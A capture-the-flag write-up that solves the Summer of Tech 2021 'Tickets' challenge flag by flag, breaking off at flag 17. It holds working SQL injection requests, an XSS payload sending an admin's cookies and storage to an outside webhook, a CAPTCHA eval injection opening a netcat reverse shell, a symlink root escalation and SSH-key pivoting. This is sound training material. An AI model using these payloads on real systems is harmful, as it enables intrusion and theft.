

# Table of Contents

- [Table of Contents](#table-of-contents)
- [Starting out](#starting-out)
  - [Disclaimer](#disclaimer)
  - [Setup](#setup)
- [Flags 1 and 2: Head and Body](#flags-1-and-2-head-and-body)
- [Flag 3: Window](#flag-3-window)
- [Flag 4: Source](#flag-4-source)
- [Flag 5: Database](#flag-5-database)
- [Flag 6: Ticket](#flag-6-ticket)
- [Flag 7: Patches](#flag-7-patches)
- [Flag 8: Hidden Endpoint](#flag-8-hidden-endpoint)
- [Flag 9: Status](#flag-9-status)
- [Flag 10: Port](#flag-10-port)
- [Flag 11: XSS](#flag-11-xss)
- [Flag 12: Image #1](#flag-12-image-1)
- [Flag 13: Image #2](#flag-13-image-2)
- [Flag 14: Filesystem #1](#flag-14-filesystem-1)
- [Flag 15: Filesystem #2](#flag-15-filesystem-2)
- [Flag 16: Filesystem #3](#flag-16-filesystem-3)
- [Flag 17: Filesystem #4](#flag-17-filesystem-4)

# Starting out

## Disclaimer

> ### **⚠️ WARNING ⚠️** 
> With great power comes great responsibility.
> 
> Never hack a website or app if you don't have explicit permission.
> 
> You only have permission to hack the "Tickets" application on `<instance>-tickets.sot2021.aurahacks.co.nz`.<br />
> 
> You must not maliciously hack any teammates you're working with. Rickrolling is fine.
> 
> You must abide by the [Summer of Tech Code of Conduct](https://summeroftech.co.nz/about/code-of-conduct/).

## Setup

The first steps are to sign up to the scoreboard, find the list of flags, and get the instance.

| Number | Name | Value |
| --- | ----------- | -- |
| 1 | Head | 10 |
| 2 | Body | 10 |
| 3 | Window | 10 |
| 4 | Source | 10 |
| 5 | Database | 20 |
| 6 | Ticket | 10 |
| 7 | Patches | 10 |
| 8 | Hidden Endpoint | 10 |
| 9 | Status | 20 |
| 10 | Port | 20 |
| 11 | XSS | 30 |
| 12 | Image #1 | 20 |
| 13 | Image #1 | 30 |
| 14 | Filesystem #1 | 30 |
| 15 | Filesystem #2 | 50 |
| 16 | Filesystem #3 | 40 |
| 17 | Filesystem #4 | 50 |


# Flags 1 and 2: Head and Body

The first two flags are called `Head` and `Body`. This strikes me as referring to either the HTML content (`<head>` and `<body>` tags), or the HTTP request itself, which is split into headers and a body.

The first thing I check, is in burp after loading the page I check the network request content, showing both the headers and the body.

```html
HTTP/2 200 OK
Date: Sat, 04 Sep 2021 03:00:43 GMT
Content-Type: text/html
Content-Length: 959
Last-Modified: Mon, 30 Aug 2021 21:44:56 GMT
Etag: "612d5158-3bf"
Accept-Ranges: bytes
X-Flag: SoT2021_Flag{0bfdd8caff4340c3b0320d3dc414b5b1}
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Xss-Protection: 1; mode=block
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
Referrer-Policy: no-referrer

<!doctype html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <title>Tickets</title>
    <base href="/">  <meta name="viewport" content="width=device-width, initial-scale=1">
  <flag flag="SoT2021_Flag{3d04a3461c175545400c01caa95ee8ac}"></flag>
  <link rel="icon" type="image/x-icon" href="favicon.ico">
<link rel="stylesheet" href="styles.b35830f1934dbcddbfce.css"></head>
<body>
  <app-root class="container-fluid"></app-root>
<script src="runtime-es2015.1eba213af0b233498d9d.js" type="module"></script><script src="runtime-es5.1eba213af0b233498d9d.js" nomodule defer></script><script src="polyfills-es5.2e99a6fe56296fe60f2d.js" nomodule defer></script><script src="polyfills-es2015.12dd4be351bc232e11d5.js" type="module"></script><script src="scripts.428823d45acd915681f6.js" defer></script><script src="main-es2015.f805b8074feb02191cea.js" type="module"></script><script src="main-es5.f805b8074feb02191cea.js" nomodule defer></script></body>
</html>
```

In this there is both a header `X-Flag: SoT2021_Flag{0bfdd8caff4340c3b0320d3dc414b5b1}` and in the HTML body a tag `<flag flag="SoT2021_Flag{3d04a3461c175545400c01caa95ee8ac}"></flag>`, allowing me to tick off flags 1 and 2.

These can also be retrieved entirely using a browser itself, right clicking the page and clicking `View Page Source` will reveal flag 2, and the network tab can be used to view the response headers.

# Flag 3: Window

Flag 3 is called `Window`, which when thinking about a website my first thought is the [Window interface](https://developer.mozilla.org/en-US/docs/Web/API/Window) in JavaScript. By calling this in the console you can print out all attributes.

In which the `flag` attribute is set to `"SoT2021_Flag{e1c05a489fa6f0cb3bb9cfef34fd57af}"` netting the next flag.

# Flag 4: Source

Flag 4 is called `Source`. This could mean a lot of things, but likely refers to source code. Again, this could mean either the front-end source code, or the back-end source code. The first place I look is in Burp at the JavaScript source, as this is a Single Page Application the majority of funcitonality is controlled by JavaScript. I run a search for `SoT2021` across the application source, and it finds a match in the `main-es2015.f805b8074feb02191cea.js` file as such:

Where a variable called `flag` has been set to `"SoT2021_Flag{9a67b5baf0de36d0742a097588e6babd}"` netting the fourth flag.

# Flag 5: Database

Flag 5 is called `Database`, which I take to mean it is stored in the database, and there'll be some way of retrieving it. Initially I move on to [Flag 6](#flag-6-ticket), and return back here once I've explored the application a bit.

After returning I had discovered that most API endpoints were vulnreable to [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection).

```
GET /v1/users/" HTTP/2
Host: aura-api.sot2021.aurahacks.co.nz
```

```json
{
    "status": 500,
    "message": "Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\"\"\"' at line 1\n    at PromisePool.query (/tickets/node_modules/mysql2/promise.js:330:22)\n    at getUser (/tickets/app/controllers/users.js:66:8)\n    at Layer.handle [as handle_request] (/tickets/node_modules/express/lib/router/layer.js:95:5)\n    at next (/tickets/node_modules/express/lib/router/route.js:137:13)\n    at Route.dispatch (/tickets/node_modules/express/lib/router/route.js:112:3)\n    at Layer.handle [as handle_request] (/tickets/node_modules/express/lib/router/layer.js:95:5)\n    at /tickets/node_modules/express/lib/router/index.js:281:22\n    at param (/tickets/node_modules/express/lib/router/index.js:354:14)\n    at param (/tickets/node_modules/express/lib/router/index.js:365:14)\n    at Function.process_params (/tickets/node_modules/express/lib/router/index.js:410:3)"
}
```

Using this, I figured out how many columns I had to work with by using `union select 1;`, `union select 1,2;` etc until the application returned correctly.

```
GET /v1/users/0"%20union%20select%201,2,3,4,5,6;%20--%20 HTTP/2
Host: aura-api.sot2021.aurahacks.co.nz
```

```json
{
    "status": 200,
    "message": "Success",
    "data": [
        {
            "id": 1,
            "username": "2",
            "isAdmin": 3,
            "details": "4",
            "birthdate": "5",
            "jobTitle": "6"
        }
    ]
}
```

Next I got a listing of all the tables (omitting irrelevant fields/tables):

```
GET /v1/users/0"%20union%20select%201,table_name,3,4,5,6%20from%20information_schema.tables;%20--%20 HTTP/2
Host: aura-api.sot2021.aurahacks.co.nz
```

```json
{
    "status": 200,
    "message": "Success",
    "data": [
        {
            "username": "auth",
        },
        {
            "username": "flags",
        },
        {
            "username": "images",
        },
        {
            "username": "patchNotes",
        },
        {
            "username": "profiles",
        },
        {
            "username": "ratelimit",
        },
        {
            "username": "ticketHistory",
        },
        {
            "username": "ticketMessages",
        },
        {
            "username": "tickets",
        }
    ]
}
```

From this, one table stood out: `flags`.

The next step is to find out the columns for the flags table (omitting irrelevant fields):

```
GET /v1/users/0"%20union%20select%201,column_name,3,4,5,6%20from%20information_schema.columns%20where%20table_name%20=%20"flags";%20--%20 HTTP/2
Host: aura-api.sot2021.aurahacks.co.nz
```

```json
{
    "status": 200,
    "message": "Success",
    "data": [
        {
            "username": "id",
        },
        {
            "username": "flag",
        }
    ]
}
```

The next step is to extract the flag:

```
GET /v1/users/0"%20union%20select%201,flag,3,4,5,6%20from%20flags;%20--%20 HTTP/2
Host: aura-api.sot2021.aurahacks.co.nz
```

```json
{
    "status": 200,
    "message": "Success",
    "data": [
        {
            "username": "SoT2021_Flag{c779f6cad9d33f042c1dd08f46e876a7}",
        }
    ]
}
```

And thus revealing flag 7: `SoT2021_Flag{c779f6cad9d33f042c1dd08f46e876a7}`

# Flag 6: Ticket

Flag 6 is called `Ticket`. By this time I've registered an account and have played around with the application a bit, and I've noticed a few apparent IDs in the URL that correspond with my user and my tickets, and I wonder if these are vulnerable to [Insecure Direct Object Reference](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References). I start decrementing these and in the response for `/v1/tickets/2` I find the following:

```
GET /v1/tickets/2 HTTP/2
Host: aura-api.sot2021.aurahacks.co.nz
```

```json
{
    "status": 200,
    "message": "Success",
    "data": {
        "id": 2,
        "title": "Incorrect flag",
        "user": {
            "id": 2,
            "username": "sd-chris",
            "details": null,
            "birthdate": null,
            "jobTitle": null
        },
        "history": [
            {
                "id": 4,
                "status": "open",
                "eventType": "created",
                "changeTime": 1584923400000,
                "user": {
                    "id": 2,
                    "username": "sd-chris",
                    "details": null,
                    "birthdate": null,
                    "jobTitle": null
                }
            }
        ],
        "messages": [
            {
                "id": 5,
                "body": "For some reason the flag SoT2021_Flag{343ccbbf9d9b2b8952861e584c8f17fc} has incorrectly had every character incremented by 1.",
                "sentTime": 1584923400000,
                "user": {
                    "id": 2,
                    "username": "sd-chris",
                    "details": null,
                    "birthdate": null,
                    "jobTitle": null
                }
            }
        ]
    }
}
```

In the messages I can spy another flag, `SoT2021_Flag{343ccbbf9d9b2b8952861e584c8f17fc}`, however it doesn't seem to submit on the scoreboard. I read the title and body of the ticket which indicates that the flag is wrong, on account of being incremented incorrectly. I decide to try decrementing it using the following snippet of python:

```python
a = "343ccbbf9d9b2b8952861e584c8f17fc"
b = ""
for c in a:
 b += chr(ord(c) - 1)
print(b)
```

(This can also be done using list comprehension for a laugh)

```python
print("".join([chr(ord(a) - 1) for a in "343ccbbf9d9b2b8952861e584c8f17fc"]))
```

The output of which is `232bbaae8c8a1a7841750d473b7e06eb`. Reconstructing into the flag of `SoT2021_Flag{232bbaae8c8a1a7841750d473b7e06eb}`, and netting another 10 points.

# Flag 7: Patches

Flag 7 is called `Patches`. I've found patch notes on the `about` page, so I check the API request that loads them:
```json
{
    "status": 200,
    "message": "Success",
    "data": [
        {
            "id": 1,
            "version": "0.1",
            "body": "Initial alpha version, basic functionality added. <flag style=\"display:none\">SoT2021_Flag{6b111108aa3abbc6b50c509763cab937}</flag>"
        },
        {
            "id": 2,
            "version": "0.2",
            "body": "Improved authentication to allow multiple users to have the same password."
        },
        {
            "id": 3,
            "version": "0.3",
            "body": "Implemented bootstrap to replace the boring graphics from the early 90s."
        },
        {
            "id": 4,
            "version": "0.4",
            "body": "Added the ability to update users information."
        }
    ]
}
```
Sure enough, hidden in there is another flag `SoT2021_Flag{6b111108aa3abbc6b50c509763cab937}`.

What's interesting here is that the patch notes seem to be vulnerable to either HTML injection or XSS, as it's interpreting the custom `<flag>` element, and correctly hiding it with the applied style of `display: none`. This might be relevant for [Flag 11](#flag-11-xss).

# Flag 8: Hidden Endpoint

Flag 8 is called `Hidden Endpoint`. I figure this is likely some part of the API that isn't ever called, so I find a [wordlist on GitHub](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt) and begin brute forcing. I quickly notice an issue however, as the API starts responding with [HTTP 418: I'm a teapot](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/418), and the front-end starts showing this message:



Filling in the CAPTCHA results in the requset including the following query parameters: `?captcha[q]=762&captcha[a]=300%20%2B%20462`, which doesn't seem like a particularly great CAPTCHA but for now I'll just add that to my brute force query:


And boom, a flag `SoT2021_Flag{5ee453f6c47536512ad95253df17db0b}` on the aptly named `/v1/flag` endpoint.

# Flag 9: Status

Flag 9 is called `Status`. I have no idea where to begin with this one, so for now I'll keep looking through the application, and my next goal, I feel, should be to try and get access to an admin account.

There are a few potential idea's I've had so far:

1. When I signed up, and whenever I login there's a field `isAdmin` set to `0`:
   ```json
    {
        "status": 200,
        "message": "Success",
        "data": [
            {
                "id": 4,
                "username": "user",
                "isAdmin": 0,
                "hash": "18f1cf9d1dccf7930494f1d09298ac5b"
            }
        ]
    }
   ```
2. The cookie that's being returned in every request is suspiciously short, and appears to be hex bytes `authorization=561c100e1756` so I could investigate this to see if it is random, or if it's possible to forge a cookie for an admin
3. The login page seems vulnerable to SQLi so I could potentially try to use this to login as an admin.
4. Use SQLi to extract the admin hash from the database and crack it, however this may take a very long time if it's been generated securely.

I decide to start with #1 as it's the probably the easiest to try, and fastest to fail. I attempt to create a user manually, while adding an `isAdmin` parameter as `1`:

```
POST /v1/users HTTP/2
Host: aura-api.sot2021.aurahacks.co.nz

{"username":"user2","password":"asdfasdf1!","isAdmin":1}
```

```json
{
    "status": 200,
    "message": "Success",
    "data": [
        {
            "id": 5,
            "username": "user2",
            "isAdmin": 1,
            "hash": "18f1cf9d1dccf7930494f1d09298ac5b"
        }
    ]
}
```

After logging into the application with this user I am indeed an admin.

I'm sure there are other ways in but we'll go with this one for now.

This added some fields to the dropdown menu on the top left, primarily `Admin Tools` and `Server Stats`.


As the flag I'm currently looking for is called `Status` I figure `Stats` is potentially a good place to start, despite how tempting that `Admin Tools` section is.

After clicking it I'm redirected to `https://aura-stats.sot2021.aurahacks.co.nz/`, which returns a DNS error. I validate using `dig` and there's no dns set for this, unlike the other two domains:

```
$ dig +noall +question +answer aura-tickets.sot2021.aurahacks.co.nz aura-api.sot2021.aurahacks.co.nz aura-stats.sot2021.aurahacks.co.nz

;aura-tickets.sot2021.aurahacks.co.nz. IN A
aura-tickets.sot2021.aurahacks.co.nz. 509 IN A  3.25.134.159
;aura-api.sot2021.aurahacks.co.nz. IN   A
aura-api.sot2021.aurahacks.co.nz. 530 IN A      3.25.134.159
;aura-stats.sot2021.aurahacks.co.nz. IN  A
```

I do notice that both the `api` and `tickets` hosts are set to the same IP, so there must be a reverse proxy being used to redirect requests on the backend. I manually set the DNS to resolve by adding `3.25.134.159 aura-stats.sot2021.aurahacks.co.nz` to my  `/ets/hosts`, reload the page, and the following shows up:


And there's the flag, `SoT2021_Flag{25c7e981700cc004e560003b3bc1b3f7}`.

Another way to achieve this same result would be to modify the `Host` header of a request to `tickets` and just change the word `tickets` to `stats`, while sending it to the same destination IP address.

# Flag 10: Port

Flag 10 is called `Port`, and unless the developer is a fan of red wine, this is probably talking about network ports. I launch an [Nmap](https://nmap.org/) scan for all ports `nmap -v -p- aura-tickets.sot2021.aurahacks.co.nz` and get the following output:

```
PORT      STATE SERVICE
80/tcp    open  http
443/tcp   open  https
27805/tcp open  unknown
```

The first two aren't that interesting, as they're just HTTP and HTTPS, but port 27805 is unusual. I connect to it using netcat and get the following output:

```
$ nc aura-tickets.sot2021.aurahacks.co.nz 27805
SoT2021_Flag{e5dc81423c8d699ea7c42ccdae29e3ed}
```

And that's a flag.

# Flag 11: XSS

Flag 11 is called `XSS` so I figure it's almost certainly related to XSS. While testing I've found multiple sections vulnerable to XSS, namely messages section, and the patch notes (from [Flag 7](#flag-7-patches)).

I initially try sending a message with a test payload `<script>alert(1)</script>`, which doesn't display in the message indicating it's being interpreted as HTML, however it doesn't actually execute the JavaScript so no alert box is created. I try again using an HTML event this time ``, which works this time.

I want to create a payload for grabbing a bunch of content from a page from a victim, so I use the following JavaScript using the Fetch API to return the page data, any cookies, any localStorage, and any sessionStorage:

```javascript
fetch('url', {method: 'POST', body: JSON.stringify({body: document.querySelector('html').innerHTML, cookies: document.cookie, localStorage: localStorage, sessionStorage: sessionStorage})})
```

Next I need somewhere to send it to, I look online for a site that'll act as a receiver for me, and find one called [Webhook.site](https://webhook.site/) and decide to try it out.

My payload now looks like this:
```html

```

I submit my payload as a message and change page so as to not pollute the receiver too much. After a while of not getting any hits, I decide to try the same payload in the patch notes. At this stage I have two ways of adding to patch notes: I can either use a stacked query in an SQL injection to inject something into the table, or I can use my powers as an admin to add a patchnote from the `Admin Tools` section.


I opt for the easy option, and add the patch note. Annoyingly the application has so much SQLi that this doesn't work straight away and I have to manually escape my submission.


Success! There was a flag in the localStorage of an admin browsing the page: `SoT2021_Flag{74ca00bac9d0731ec425d6c69f635c97}`

# Flag 12: Image #1

Flag 12 is called `Image #1`. So far there have been only two images in the entire application, the defaut user profile image, and the admin user's profile image, accessible by decrementing the user id field `https://aura-tickets.sot2021.aurahacks.co.nz/#/user/1`


The first thing I did was check the image metadata using [exiftool](https://exiftool.org/):

```
$ exiftool admin.jpg
ExifTool Version Number         : 12.30
File Name                       : admin.jpg
Directory                       : .
File Size                       : 5.3 KiB
File Modification Date/Time     : 2021:09:04 17:58:47+12:00
File Access Date/Time           : 2021:09:04 17:58:48+12:00
File Inode Change Date/Time     : 2021:09:04 17:58:47+12:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Comment                         : SoT2021_Flag{1c43e35a82d47e225dcd7d6f41606ec7}
Image Width                     : 225
Image Height                    : 225
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 225x225
Megapixels                      : 0.051
```

Which reveals a flag in the Comment field `SoT2021_Flag{1c43e35a82d47e225dcd7d6f41606ec7}`

# Flag 13: Image #2

Flag 13 is called `Image #2`, so it probably relates to [Flag 12](#flag-12-image-1).

Looking at the admin's profile, they've said `I enjoy looking into interesting tools, recently I've started learning about file metadata and steganography.`. This mentions both file metadata and [steganography](https://en.wikipedia.org/wiki/Steganography), the first of which is what exiftool reads. This leads me to suspect that a flag is hidden using a steganography tool. A google search leads me to an [article on the topic](https://www.comptia.org/blog/what-is-steganography) that lists four tools, [Steghide](http://steghide.sourceforge.net/), [Xiao](https://xiao-steganography.en.softonic.com/), [Stegais](http://stegais.com/), and Concealment.

I install the first one, steghide, and run it against the image file supplying a blank password:

```
$ steghide extract -sf admin.jpg
Enter passphrase:
wrote extracted data to "flag.txt".

$ cat flag.txt
SoT2021_Flag{00a92d586b91f283fcd89fb3dd375929}
```

And there's another flag `SoT2021_Flag{00a92d586b91f283fcd89fb3dd375929}`.

# Flag 14: Filesystem #1

Flag 14 is the first of the four filesystem flags, `Filesystem #1`.

During testing, four pieces of functionality have stood out as potentially allowing file system access.

1. The CAPTCHA
   1. It returns suspicious error messages

      `GET /v1/?captcha[q]=762&captcha[a]=a HTTP/2`

      ```json
      {
        "status":500,
        "message":"ReferenceError: a is not defined"
      }
      ```
2. The image api endpoint
   1. It returns full file paths
      ```json
      {
        "status": 200,
        "message": "Success",
        "data": {
          "filename": "/tickets/app/images/laserkiwi.jpg",
          "blob": "..."
        }
      }
      ```
   2. It returns suspicious errors


      `GET /v1/users/image/a HTTP/2`
      ```json
      {
        "status":500,
        "message":"Incorrect padding on base64 string: a"
      }
      ```

      `GET /v1/users/image/YQ== HTTP/2`
      ```json
      {
        "status":500,
        "message":"File '/tickets/app/images/a' does not exist."
      }
      ```
3. The SQLi, and SQL Box in the `Admin Tools`
   1. MySQL supports reading files with the `LOAD_FILE()` method
4. The Python Box
   1. If it functions as advertised it may just give straight code execution

It doesn't take long to discount option 4, as the python box simply returns HTTP 501: Not Implemented no matter what input is received.

The image api proved to be very useful, as it's possible to use it to read any file on disk, however it appears to block reading any files in `/etc`. Knowing that this is running nodejs through verbose error messages, I know that every node application needs to have a `package.json` file somewhere, so I try reading that from every directory above the current directory, and find it in `../../package.json`

`GET /v1/users/image/Li4vLi4vcGFja2FnZS5qc29u HTTP/2`

```json
{
  "name": "tickets",
  "version": "1.0.0",
  "description": "Helpdesk Ticketing API",
  "main": "app/server.js",
  "scripts": {
    "start": "python3 ./launcher.py",
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  ...
```

Using this it's possible to read all of the source of the application, starting at `../../app/server.js` and then resolving all of the `require("module")` definitions. This can then be used to help find more vulnerabilities that may allow code execution.

I started looking at the CAPTCHA next, as the error from that seemed to indicate some kind of code injection. Using the file read to grab the source code, I can see that this is exactly what it's doing:

``

```javascript
function validateCaptcha(captcha) {
  valid = false;
  if (utils.typeCheck(captcha, 'object') && utils.typeCheck(captcha['q'], 'string') && utils.typeCheck(captcha['a'], 'string')) {
    try {
      valid = eval(captcha['a']) == captcha['q'];
    } catch (e) {
      throw `${e.name}: ${e.message}`;
    }
  }
  return valid;
}
```

So it `eval`'s the provided answer (equation), and compares the result to the question, however it doesn't directly return the result, unless for some reason the result is in an error message, so `throw` can be used, with an object that has a name/message field. I decide to directly create a reverse shell, however the api can be used by using `require('child_process').execSync('command')` however you need to be careful not to cause the process to hang, as this will hang the entire server.

```
POST /v1/ HTTP/2
Host: aura-api.sot2021.aurahacks.co.nz

{"captcha":{"q":"1","a":"require('child_process').exec('nc <connect back ip> <port> -e /bin/sh')"}}
```

Using this shell it is possible to run arbitrary commands on the server:

```
ls -la
total 1752
drwxr-xr-x    1 tickets  tickets         25 Aug 31 08:57 .
drwxr-xr-x    1 root     root            33 Aug 31 08:56 ..
drwxr-xr-x    1 tickets  tickets        138 Aug 25 06:44 app
-rw-r--r--    1 tickets  tickets         46 Aug 22 21:45 flag.txt
-rwxr-xr-x    1 tickets  tickets        527 Jul 15 02:15 launcher.py
drwxr-xr-x    1 tickets  tickets       4096 Aug 23 00:00 node_modules
-rw-r--r--    1 tickets  tickets      72916 Aug 22 23:59 package-lock.json
-rw-r--r--    1 tickets  tickets        610 Aug 11 01:48 package.json
-rw-r--r--    1 tickets  tickets    1629167 Sep  4 10:29 tickets.log
cat flag.txt
SoT2021_Flag{825497c3db3b7c6a28970b6576f25241}
```

And there's the first filesystem flag `SoT2021_Flag{825497c3db3b7c6a28970b6576f25241}`

# Flag 15: Filesystem #2

Carrying on from the previous stage, I've got a reverse shell. I use `find / -iname '*flag*' 2>/dev/null` to see if there are any more flags in the filesystem, and sure enough I find one in `/root/flag.txt`.

I list the contents of `/root`:

```
$ ls -lah /root/
total 4K
drwxr-xr-x    1 root     root          21 Aug 27 10:02 .
drwxr-xr-x    1 root     root          33 Aug 31 08:56 ..
drwx------    1 root     root          25 Aug 27 10:02 .config
drwx------    4 root     root         103 Aug  3 18:37 .gnupg
drwxr-xr-x    1 root     root          59 Aug 27 10:02 .npm
drwxr-xr-x    2 root     root          46 Aug 27 09:35 .ssh
-rw-------    1 root     root          46 Aug 22 21:45 flag.txt
-rwxrwxrwx    1 root     root           0 Aug 27 09:07 test.js
```

And see that the flag is only readable by root, so I start looking for ways to escalate to root. Sudo isn't installed, so I list out the running processes.

```
    1 root      0:01 node /usr/local/bin/nodemon --exec python3 /tickets/launcher.py
   19 root      0:00 python3 /tickets/launcher.py
   20 tickets   0:03 node app/server.js
  315 tickets   0:00 /bin/sh
  321 tickets   0:00 python3 -c import pty; pty.spawn("/bin/sh")
  322 tickets   0:00 /bin/sh
  332 tickets   0:00 ps aux
```

And find that nodemon is running a python script as root. The python script code is as follows:

```python
#!/usr/bin/env python3

import subprocess
import os
import time
import signal

def cu(g, u):
    def d():
        os.setgid(g)
        os.setuid(u)
    return d

for e in list(os.scandir('app')) + list(os.scandir('app/main')):
    if e.is_file() and e.path.endswith('.js'):
        try:
            print("Launching {}...".format(e.path))

            subprocess.Popen("node {}".format(e.path), preexec_fn=cu(e.stat().st_gid, e.stat().st_uid), shell=True)
        except e:
            print(e)

while True:
    time.sleep(60)
```

This seems like a fairly simple program that will find any `.js` files in either the `app` or `app/main` directories and execute them in a child process, however there's some weirdness with the `preexec_fn` argument, and also it's setting `shell=True`, while using a format string, so theoretically it would be possible to get command injection there too.

Diving into the `preexec_fn`, it seems to call the `cu` function, passing in the group id, and user id of the current file. That then returns a function that will change the currently running process's group id and user id to the arguments passed in. Checking the [documentation on python's subprocess](https://docs.python.org/3/library/subprocess.html): 

```
If preexec_fn is set to a callable object, this object will be called in the child process just before the child is executed. (POSIX only)
```

This is all run by [nodemon](https://www.npmjs.com/package/nodemon), so any changes to source code should restart the whole application. As such, I decide to test my theory by creating a `test.js` in the `app` directory containing `require('child_process').exec('/usr/bin/id > /tmp/idtest')` which should print out the uid and gid of the process it winds up running as. The output of which is `uid=100(tickets) gid=101(tickets) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)`, so as I suspected this is to drop the permissions. This does however kill my shell, so I have to restart it again...

So to exploit this I would need to get a file in there owned by a different user, preferably root, that runs code I provide. In the directory listing for `/root` there was a file that fits the bill nicely, `test.js` with insecure permissions that would allow me to write to it, however even if I do write to it, if I then copied it to the app folder, it would just have my current user ownership, so I wouldn't gain anything. My next thought is what about a symlink, how does python's `file.stat().st_gid` handle that. I test my idea locally by creating two files, one normal file and one symlink to a root-owned file, creating an `os.DirEntry` object for each of them using `os.scandir()`, then running the `stat()` method on both of them, and checking the `st_gid` and `st_uid` fields. On the normal file, they are correct for my user, however for the symlinked file they are both `0` indicating that they are owned by root.

I decide to give this a go, so I write the same test as before (`require('child_process').exec('/usr/bin/id > /tmp/idtest')`) into the file owned by root `/root/test.js`, then create a symlink to `/root/test.js` in the `app` folder.

```
$ cat /tmp/idtest
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

Success. I use this exact technique to write the contents of `/root/flag.txt` into `/tmp/rootflag.txt` using `require('child_process').exec('cat /root/flag.txt > /tmp/rootflag.txt')`

```
$ cat /tmp/rootflag.txt
SoT2021_Flag{bd4b3b87ba0f8b59f473695a2039997a}
```

# Flag 16: Filesystem #3

During exploring the system for the previous flag, there was a `/root/.ssh` folder, so I decide to check that for any goodies.

`ls -la /root/.ssh`

```
total 8
drwxr-xr-x    2 root     root            46 Aug 27 09:35 .
drwxr-xr-x    1 root     root            36 Aug 27 10:02 ..
-rw-r--r--    1 root     root           399 Aug 27 09:26 id_ed25519
-rw-r--r--    1 root     root            92 Aug 27 09:26 id_ed25519.pub
```

I copy both of these to a folder owned by my user so I can edit them, and then I print out the public key to see if I can find any ownership information in the comment:

`cat id_ed25519.pub`

```
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIL+gjDM5dzGsNKf4N6Fa8QJMgMbqEJvkfwRe1EDqxURp tickets@db
```

As I've not got a full shell, only a crappy netcat listener, I can't use anything that'll need a full TTY, however ssh can be used to just run commands, so I decide to just try that for now. I need to disable checking the host key, however, as that needs a full TTY for the prompt. 

`ssh -i id_ed25519 -o StrictHostKeyChecking=no tickets@db ls -lah`

```
total 16K
drwxr-xr-x 1 tickets tickets   85 Aug 27 10:24 .
drwxr-xr-x 1 root    root      21 Aug 27 09:36 ..
-rw-r--r-- 1 tickets tickets  220 Apr 18  2019 .bash_logout
-rw-r--r-- 1 tickets tickets 3.5K Apr 18  2019 .bashrc
-rw-r--r-- 1 tickets tickets  807 Apr 18  2019 .profile
drwxr-xr-x 1 tickets tickets   29 Aug 27 09:36 .ssh
-rw------- 1 tickets tickets   41 Aug 27 10:15 flag.txt
```

I use this to cat out the flag

`ssh -i id_ed25519 -o StrictHostKeyChecking=no tickets@db cat flag.txt`

```
SoT2021{64c38b43cc44a66312f3e4611db437bc}
```

And that's another flag.

# Flag 17: Filesystem #4

Following the pattern from [Flag 15](#flag-15-filesystem-2) I figure this is probably also a root flag, so I check `/root`

`ssh -i id_ed25519 -o StrictHostKeyChecking=no tickets@db ls -la /root`

```
total 16
drwxr-xr-x 1 root root  22 Aug 27 10:24 .
drwxr-xr-x 1 root root  62 Aug 31 08:56 ..
-rw-r--r-- 1 root root 570 Jan 31  2010 .bashrc
-rw-r--r-- 1 root root 148 Aug 17  2015 .profile
-rw-r--r-- 1 root root 227 Aug 17 11:30 .wget-hsts
-rw------- 1 root root  41 Aug 27 10:19 flag.txt
```

I check running processes

`ssh -i id_ed25519 -o StrictHostKeyChecking=no tickets@db ps aux`

```
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
mysql        1  0.2 40.8 1342240 411580 ?      Ssl  02:22   1:22 mysqld
root         8  0.0  0.2  15852  2256 ?        Ss   02:22   0:00 /usr/sbin/sshd
sshd        99  0.0  0.0      0     0 ?        Z    11:36   0:00 [sshd] <defunct>
sshd       101  0.0  0.0      0     0 ?        Z    11:38   0:00 [sshd] <defunct>
tickets    108  0.0  0.0      0     0 ?        Z    11:39   0:00 [sshd] <defunct>
tickets    116  0.0  0.0      0     0 ?        Z    11:40   0:00 [sshd] <defunct>
sshd       119  0.0  0.0      0     0 ?        Z    11:42   0:00 [sshd] <defunct>
tickets    126  0.0  0.0      0     0 ?        Z    11:43   0:00 [sshd] <defunct>
tickets    134  0.0  0.0      0     0 ?        Z    11:43   0:00 [sshd] <defunct>
tickets    142  0.0  0.0      0     0 ?        Z    11:43   0:00 [sshd] <defunct>
tickets    150  0.0  0.0      0     0 ?        Z    11:46   0:00 [sshd] <defunct>
root       152  0.0  0.7  16784  7872 ?        Ss   11:47   0:00 sshd: tickets [priv]
tickets    158  0.0  0.4  16784  4916 ?        S    11:47   0:00 sshd: tickets@notty
tickets    159  0.0  0.2   7640  2636 ?        Rs   11:47   0:00 ps aux
```

Installed programs?

`ssh -i id_ed25519 -o StrictHostKeyChecking=no tickets@db ls /usr/bin`

```
...
-rwsr-xr-x 1 root root    154K Jan 20  2021 sudo
...
```

Sudo might be promising, does my user have any permissions for sudo?

`ssh -i id_ed25519 -o StrictHostKeyChecking=no tickets@db sudo -l`

```
